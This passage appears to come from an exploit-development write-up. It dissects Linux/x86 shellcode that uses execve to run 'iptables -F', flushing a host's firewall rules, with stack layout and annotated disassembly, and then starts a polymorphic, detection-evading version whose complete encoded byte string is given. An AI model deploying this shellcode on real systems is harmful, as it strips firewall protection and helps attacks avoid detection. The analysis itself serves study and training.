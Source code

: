 So far, the author of this shellcode pushed the string `///sbin/iptables` to the stack, saving its pointer into the register `EBX`, which is going be used by `execve` as the **1st argument** of iptables.

Follows the function prototype of `execve`:

```cpp
int execve(
  // executable to run
  const char *pathname,

  // array of command-line arguments
  char *const argv[],

  // array of environment variables
  char *const envp[]
);
```

In this case `EBX` is `pathname`, i.e. a pointer to a string indicating the executable to run. While `ECX` is a pointer to an array of pointers, terminated by the DWORD `0x00000000`. On the stack, it would look like this:

```nasm
; *ebx -> '///sbin/iptables'
; *esi -> '-F'
; 0x00000000
```

Follows the rest of the disassembly:

```nasm
                            ; 2nd argument of execve:
                            ;   pointer to array of pointers to strings acting as
                            ;   command-line arguments of the program
00000023  89E1              mov ecx,esp

                            ; 3rd argument of execve:
                            ;   pointer to array of pointers to env. variables
00000025  89C2              mov edx,eax

                            ; call execve syscall
00000027  B00B              mov al,0xb
00000029  CD80              int 0x80
```

These instructions use `execve` to run the command `///sbin/iptables -F`.

## Polymorphic shellcode

Follows the polymorphic version of the shellcode:

```nasm
; Title: Linux/x86 - iptables --flush
; Author: Robert C. Raducioiu
; Web: rbct.it
; Reference: http://shell-storm.org/shellcode/files/shellcode-825.php
; Shellcode: "\x31\xdb\xf7\xe3\x52\x66\xbf\x2d\x46\x66\x57\x89\xe7\x52\xbe\x74\x63\x62\x72\x52\x68\x62\x6c\x65\x73\x68\x1d\x13\x16\x13\x31\x34\x24\x68\x62\x69\x6e\x2f\x68\x5b\x4c\x4d\x01\x31\x34\x24\x89\xe3\x52\x57\x53\xb0\x0a\x40\x54\x59\xcd\x80"
; Length: 58 bytes

global _start

section .text

_start:

```